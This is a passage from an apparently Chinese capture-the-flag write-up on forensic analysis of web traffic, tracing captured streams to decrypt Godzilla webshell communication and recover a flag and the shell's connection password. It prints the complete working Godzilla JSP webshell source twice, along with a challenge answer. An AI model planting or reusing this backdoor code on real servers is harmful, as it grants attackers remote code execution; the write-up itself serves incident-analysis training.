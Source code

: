 ![2](./../../2023/08/28/hw2/2.webp)

![3](./../../2023/08/28/hw2/3.webp)

哥斯拉webshell

```java
<%! String xc="748007e861908c03"; class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }}%><%try{byte[] data=new byte[Integer.parseInt(request.getHeader("Content-Length"))];java.io.InputStream inputStream= request.getInputStream();int _num=0;while ((_num+=inputStream.read(data,_num,data.length))<data.length);data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters", data);Object f=((Class)session.getAttribute("payload")).newInstance();java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();f.equals(arrOut);f.equals(pageContext);f.toString();response.getOutputStream().write(x(arrOut.toByteArray(), true));} }catch (Exception e){}%>
```

跟踪到流20052

![4](./../../2023/08/28/hw2/4.webp)



![5](./../../2023/08/28/hw2/5.webp)

发现并不是查看flag，继续跟进流20053

![6](./../../2023/08/28/hw2/6.webp)




![3](./../../2023/08/28/hw2/7.webp)



![3](./../../2023/08/28/hw2/8.webp)

解密请求报文应该是查看flag内容了，解密返回报文得到flag

![3](./../../2023/08/28/hw2/9.webp)

答案 `flag{9236b29d-5488-41e6-a04b-53b0d8276542}`

## hard_web_3

题目内容：该webshell的连接密码是多少？

```java
<%!
String xc="748007e861908c03"; class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }}
%>
<%try{byte[] data=new byte[Integer.parseInt(request.getHeader("Content-Length"))];java.io.InputStream inputStream= request.getInputStream();int _num=0;while ((_num+=inputStream.read(data,_num,data.length))<data.length);data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters", data);Object f=((Class)session.getAttribute("payload")).newInstance();java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();f.equals(arrOut);f.equals(pageContext);f.toString();response.getOutputStream().write(x(arrOut.toByteArray(), true));} }catch (Exception e){}%>

```

